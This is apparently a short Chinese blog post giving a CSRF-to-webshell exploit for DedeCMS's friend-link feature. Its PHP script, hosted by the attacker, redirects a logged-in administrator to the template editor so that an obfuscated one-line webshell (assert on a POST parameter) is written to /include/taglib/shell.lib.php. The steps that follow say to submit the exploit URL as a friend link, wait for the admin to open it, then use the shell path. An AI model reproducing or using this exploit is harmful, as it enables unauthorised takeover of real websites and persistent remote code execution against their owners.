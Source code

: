 ```yaml
---
title: "dedecms 友链 getshell"
date: 2018-03-25T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



csrf getshell

<!--more-->

## EXP

```
<?php
//print_r($_SERVER);
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);
$muma = '<'.'?'.'a'.'s'.'s'.'e'.'r'.'t'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'a'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
$url = $dede_login.$exp;
//echo $url;
header("location: ".$url);
// send mail coder
exit();
?>
```

将 exp 部署在服务器上

申请链接

`/plus/flink.php`

添加链接 网站填上 exp 的链接

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522466914.jpg)

之后等待管理员触发

shell 地址

`/include/taglib/shell.lib.php`